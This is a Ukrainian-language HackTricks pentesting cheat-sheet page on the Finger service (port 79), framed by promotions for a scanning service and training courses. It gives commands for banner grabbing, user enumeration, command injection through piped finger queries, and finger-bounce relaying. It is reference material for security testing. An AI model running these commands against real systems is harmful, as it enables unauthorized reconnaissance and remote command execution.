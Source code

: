 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Миттєво доступна установка для оцінки вразливостей та тестування на проникнення**. Запустіть повний pentest з будь-якого місця з 20+ інструментами та функціями, які охоплюють від розвідки до звітування. Ми не замінюємо pentester'ів - ми розробляємо спеціалізовані інструменти, модулі виявлення та експлуатації, щоб повернути їм трохи часу для глибшого аналізу, отримання доступу та розваг.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Основна інформація**

Програма/сервіс **Finger** використовується для отримання деталей про комп'ютерних користувачів. Зазвичай надається інформація, яка включає **ім'я користувача, повне ім'я** та, в деяких випадках, додаткові деталі. Ці додаткові деталі можуть включати місцезнаходження офісу та номер телефону (якщо доступно), час входу користувача, період бездіяльності (idle time), останній раз, коли користувач читав електронну пошту, та вміст файлів планів і проектів користувача.

**Порт за замовчуванням:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Перерахунок**

### **Отримання банера/Базове з'єднання**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Перерахування користувачів**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Альтернативно, ви можете використовувати **finger-user-enum** від [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), кілька прикладів:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap виконує скрипт для використання стандартних скриптів**

### Metasploit використовує більше трюків, ніж Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Виконання команд
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Використовуйте систему як реле finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Миттєво доступна налаштування для оцінки вразливостей та пенетестації**. Запустіть повний пенетест з будь-якого місця з 20+ інструментами та функціями, які охоплюють від розвідки до звітування. Ми не замінюємо пенетестерів - ми розробляємо кастомні інструменти, модулі виявлення та експлуатації, щоб повернути їм трохи часу для глибшого аналізу, отримання доступу та розваг.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
